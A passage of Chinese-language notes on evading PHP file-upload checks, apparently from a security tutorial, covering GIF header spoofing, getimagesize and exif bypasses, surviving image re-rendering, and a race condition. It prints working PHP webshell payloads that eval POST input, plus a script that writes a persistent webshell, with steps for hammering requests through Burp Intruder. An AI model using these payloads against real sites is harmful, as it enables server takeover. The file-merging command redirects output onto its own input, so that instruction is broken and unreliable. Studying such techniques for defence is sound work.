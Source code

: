 * gif的文件头为GIF89A

* notepad++编写

  ```php+HTML
  GIF89a
  <?php @eval($_POST["wmdx"]); echo "nice"?>
  ```

* 伪造为gif文件

#### **getimagesize()**

php的一个获取图片信息的函数，如果没有上传的不是图片则获取不到信息

使用

```shell
cat image.php webshell.php > image.php
```

合并为一个文件再上传即可

#### **exif()**

使用exif()判断imagetype

* 直接在图片后写入木马即可

#### **二次渲染**

imagecreatefromjpeg()重组图片

如果文件末尾有php代码，就会被重组

* 把末尾的php放在图片中部

### 条件竞争

**适用条件**

* 网站允许先上传任意文件，然后检查文件是否包含Webshell脚本，如果包含再删除文件
* 在文件上传和删除文件之间有时间差
* **利用这个时间差完成攻击**

**方法**

* 编写shell.php

  ```php+HTML
  <?php
  $myfile = fopen("shell_17.php", "w") or die("Unable to open file!");
  $txt = '<?php @eval($_POST["wmdx"]); phpinfo();?>';
  fwrite($myfile, $txt);
  fclose($myfile);
  ?>
  ```

* burp抓包放入Intruder，设置一个变量令其不断访问（类似爆破或者DoS）

* 不断在浏览器刷新访问shell.php，有可能能在程序删除shell.php前执行
